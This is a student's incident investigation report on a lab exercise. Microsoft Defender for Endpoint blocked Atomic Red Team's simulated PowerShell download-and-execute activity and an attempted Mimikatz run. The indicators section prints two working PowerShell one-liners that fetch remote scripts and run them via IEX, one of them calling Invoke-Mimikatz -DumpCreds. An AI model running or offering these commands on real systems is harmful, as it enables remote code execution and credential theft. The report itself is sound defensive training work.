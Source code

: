 # Investigation report — Suspicious PowerShell / Mimikatz on Jenny

**Analyst:** Sceptre  
**Date:** 27 October 2025  
**Time zone:** London (GMT, UTC+00:00)  
**Environment:** Microsoft Defender for Endpoint (EDR in block mode) — Intune enrolled Windows 11 VM “Jenny”

---

## Investigation summary — what happened?

Defender for Endpoint detected and blocked suspicious PowerShell activity.  
The sequence was an interactive RDP session for **AzureAD\JennySmith**, which spawned **cmd.exe** that launched **powershell.exe** to download and attempt to execute remote scripts (`IEX` + `DownloadString`).  
Defender prevented payloads including an attempted **Mimikatz** execution, so no credential dumping was completed.

---

## Stakeholder impact — who was involved?

- **User:** AzureAD\JennySmith  
- **Device:** Windows 11 VM “Jenny”  
- **Investigator:** Sceptre  
- **Business impact:** None — activity blocked successfully and contained within the test environment.

---

## Findings — what did I find?

- Alerts generated and blocked by Defender:
  - Suspicious PowerShell command line with IEX and DownloadString  
  - Suspicious process executed PowerShell command (cmd.exe → powershell.exe)  
  - Blocked Mimikatz attempt labelled **Trojan:PowerShell/Mimikatz.A** (remediation: remove, status: resolved)
- Process chain and timestamps show the interactive session root:  
  `userinit.exe > explorer.exe > cmd.exe (pid 8540) > powershell.exe (pid 12236)`
- Advanced Hunting confirmed the **download and execute** pattern at `27 Oct 2025 16:05 GMT` but returned no Invoke-Mimikatz entries.
- Spread and persistence checks showed no other affected devices and no scheduled tasks or registry Run keys created.

---

## Immediate actions — when did this occur and is it still happening?

- **Initial detection:** 27 Oct 2025 16:05 GMT  
- **Containment:** Defender blocked and removed payloads automatically.  
- **Current status:** No ongoing execution or related activity observed.

---

## Affected systems and data — where in the environment did this happen?

- **Host:** Jenny (Windows 11 VM)  
- **Session:** AzureAD\JennySmith via RDP from `192.168.1.72`  
- **Data impact:** None — no LSASS dumps, no exfiltration observed.  
- **Telemetry:** Collected under “Investigation and hunting” folder for validation.

---

## Indicators of compromise (IoCs)

### PowerShell commands

```powershell
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/.../Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```

---

## Root cause — why did this happen?

The immediate root cause was the execution of a PowerShell **download and execute** command within an interactive user session.  
PowerShell with `IEX` and `DownloadString` is commonly abused to run remote code.  
In this case, the behaviour was intentionally simulated by Atomic Red Team for testing, but it mirrors real-world attacker activity closely.

---

## Nature of the attack — how did this happen?

This falls under **MITRE ATT&CK technique T1059.001 (Command and Scripting Interpreter — PowerShell)**.  
The attacker used **cmd.exe** to call PowerShell, which fetched remote scripts and attempted to execute them in memory via `IEX`.  
The next stage attempted credential theft using a **Mimikatz** script, but Defender detected the behaviour and blocked the payload before it could run.

---

## Recommended containment and remediation (if this were real)

1. Isolate the host from the network.  
2. Collect forensic artefacts: memory and disk images, Defender logs, ReportId and process IDs.  
3. Rotate passwords for accounts used on the host.  
4. Run environment-wide hunts for IEX and DownloadString patterns.  
5. Deploy Sysmon for deeper process and network telemetry.  
6. Onboard additional endpoints to improve detection visibility.

---

## Conclusion

This was a valuable learning exercise.  
Defender did its job and blocked what would have been a credential theft attempt.  
The key takeaway is to look out for **PowerShell being used by non-IT users** — that mismatch is often the first clue something isn’t right.  
This project helped reinforce my understanding of how alerts, timelines, and KQL hunts fit together in a real investigation.

---

*Report authored by Sceptre — MyDFIR Skool Project 3*
